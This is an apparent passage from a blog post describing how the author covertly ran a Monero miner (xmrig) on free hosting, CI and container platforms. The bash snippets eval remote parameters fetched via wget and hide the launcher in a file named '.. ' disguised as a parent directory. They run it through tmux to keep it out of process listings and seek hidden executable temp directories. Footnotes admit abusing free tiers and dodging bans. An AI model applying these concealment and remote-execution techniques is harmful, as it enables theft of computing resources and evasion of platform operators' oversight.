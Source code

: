 ```bash
## m1 also important to stop wget
pl_vars=$(echo "$token_url" | wget -t 1 -T 3 -q -i- -S 2>&1 | grep -m1 'Location')
pl_vars=${pl_vars#*\/}
pl_vars=${pl_vars//\"&/\" }
pl_vars=${pl_vars//%3F/\?}
```

The wget `-S` prints the redirect url we are interested in for parsing.
Having the parameters and the script, we evaluate the variables writing them over a file

```bash
eval "$pl_vars"
echo "export \
$pl_vars \
$ENV_VARS \
">env.sh
```

This file will be sourced by are deploy script.
The last part of the startup script is to actual [trampoline], evaluate the script within the current shell process, or maybe let it be managed by tmux if possible.

```bash
# printf preserves quotes
eval "$(printf '%s' "$launcher")" &>/dev/null
# or tmux
echo "$launcher" > ".. "
tmux send-keys -t miner ". ./\".. \"" Enter
```

The launcher script is dumped to a file named ".. " this looks confusing because it can be mistaken as a _parent_ directory. And we don't include the session command, as that would linger in the process command, instead we start the tmux session beforehand and send the source command through tmux terminal interface. Related to this, sometimes calling an executable with `./` keeps those chars in the command, so it is better to add the `$PWD` to the path..`PATH=$PWD:$PATH`.

## The Payload

Our deploy script starts by sourcing the `env.sh` file, and keeping or configured vars as `STARTING_*` vars like

```bash
STARTING_PATH=${STARTING_PATH:-$PATH}
STARTING_PID=$BASHPID
```

This allows us to kill and restart a running instance while resetting the environment.
Lets switch to a tmp directory with exec capabilities

```bash
# out local subdirectory
pathname=$(printf ".%-$((RANDOM%9+1))s"
for ph in {/tmp,/dev/shm,/run,/var/tmp,/var/cache,~/.local,~/.cache,~/}; do
    rm -rf "$ph/$pathname" &&
        mkdir -p "$ph/$pathname" &&
        tmppath="$ph/$pathname" &&
        is_path_executable "$tmppath" &&
        export PATH="${ph}/$pathname:${PATH}" tmppath &&
        break
done
[ -n "$tmppath" ] && cd "$tmppath"
```


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \posts/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/posts/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/posts/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration